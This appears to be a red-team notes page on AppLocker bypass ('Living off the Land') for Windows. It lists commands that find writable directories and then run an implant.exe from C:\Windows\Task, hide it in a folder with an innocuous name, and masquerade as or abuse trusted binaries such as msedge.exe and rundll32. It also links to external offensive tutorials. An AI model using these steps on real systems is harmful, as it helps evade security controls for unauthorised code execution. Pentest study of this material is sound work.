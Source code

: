 # Living off the Land

## 01 - Detect

### 1.1 - Applocker EXE Bypass

#### 1.1.1 - Command Prompt

```
C:\> icacls.exe C:\Windows\Task
```

#### 1.1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrvV2\Exe
```

#### 1.1.3 - GPEdit

Local Computer Policy > User Configuration > Administrative Templates > System

### 1.2 - Applocker DLL Bypass

```
C:\> accesschk.exe "<username>" C:\Windows -wus
```

## 02 - Exploit

### 2.1 - World Writable Directories

```
C:\> C:\Windows\Task\implant.exe
```

### 2.2 - Create Directory

```
C:\Users\Administrator\Desktop> md Datasheet

C:\Users\Administrator\Desktop> move implant.exe Datasheet
```

### 2.3 - Masquerade Programs

```
msedge.exe
explorer.exe
```

### 2.4 - Whitelisted Executable Programs

```
rundll32.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Windows/Code Execution/HTA]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

- [[Scriptlet]]

- [[Windows Scripting Host]]

- [[WMI]]

- [[ForFiles]]

- [[DLL Execution]]

### Red Team Notes

- [Red Team Notes: Application Whitelisting Bypass with WMIC and XSL](https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl)

### Pentestlab

- [Pentestlab Blog: AppLocker Bypass - CMSTP](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)